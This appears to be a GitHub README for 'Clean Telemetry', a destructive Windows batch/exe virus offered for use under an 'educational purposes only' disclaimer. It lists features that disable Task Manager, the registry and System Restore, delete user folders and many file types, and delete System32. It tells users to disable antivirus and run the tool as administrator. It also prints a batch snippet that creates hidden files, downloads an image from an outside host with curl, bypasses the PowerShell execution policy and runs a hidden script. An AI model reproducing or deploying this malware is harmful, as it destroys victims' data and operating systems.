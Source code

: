 # ***I am not responsible for your actions. This repositories is for educational purposes only.***

## What is ?

Clean Telemetry is a virus that removes the system32 folder. 

It's open source you have .bat force the source and .exe .

#### [Video](https://youtu.be/MAVqU3mgNF0)

## Features :

You have two version for this moment :

Fast version :
- Kill Task Manager and Regedit.
- Deactives : Task Manager, Control Pannel, System Restore, Block taskBar, Run dialog (Win + R), Power Button and Registry.
-  Delete System32 folder.
- All this without a window, I create a vbs and bat file that runs with a task.

Slow version :
- Kill Task Manager and Regedit.
- Deactives : Task Manager, Control Pannel, System Restore, Block taskBar, Run dialog (Win + R), Power Button and Registry.
- Delete Folders : Documents, Downloads, Pictures, Videos, Music and Desktop (Current user logged)
- Delete all extension files : .jpeg, .txt, .png, .jpg, .iso, .msi, .avi, .wav, .mp3, .mp4, .mov, .exe and .psd
- Delete System32 folder.

## How to use :
Disable the AntiVirus and run the .bat or .exe as administrator.

## How to disable change of wallpaper

Delete this code

    mkdir "%windir%\RIP"
    attrib +i +h +s "%windir%\RIP"
    set ip=8.8.8.8
    ping -n 1 %ip% | find "TTL" 
    if not errorlevel 1 set error=win
    if errorlevel 1 set error=fail
    if %error% EQU fail (move rip.png %windir%\RIP\) else (curl -o "%windir%\RIP\rip.png" https://i.imgur.com/EGBHDer.png )
    attrib +i +h +s "%windir%\RIP\rip.png"
    reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v Wallpaper /t REG_SZ /d  "%windir%\RIP\rip.png" /f 
    powershell Set-ExecutionPolicy Bypass
    
    echo $imgPath="%windir%\RIP\rip.png" >> %windir%\wall.ps1
    echo $code = @' >> %windir%\wall.ps1
    echo using System.Runtime.InteropServices; >> %windir%\wall.ps1
    echo namespace Win32{ >> %windir%\wall.ps1
    echo      public class Wallpaper{ >> %windir%\wall.ps1
    echo         [DllImport("user32.dll", CharSet=CharSet.Auto)] >> %windir%\wall.ps1
    echo          static extern int SystemParametersInfo (int uAction , int uParam , string lpvParam , int fuWinIni) ; >> %windir%\wall.ps1
    echo          public static void SetWallpaper(string thePath){ >> %windir%\wall.ps1
    echo             SystemParametersInfo(20,0,thePath,3); >> %windir%\wall.ps1
    echo          } >> %windir%\wall.ps1
    echo     } >> %windir%\wall.ps1
    echo  } >> %windir%\wall.ps1
    echo '@>> %windir%\wall.ps1
    echo add-type $code >> %windir%\wall.ps1
    echo [Win32.Wallpaper]::SetWallpaper($imgPath) >> %windir%\wall.ps1
    attrib +i +h +s +r %windir%\wall.ps1
    powershell "& ""%windir%\wall.ps1"""

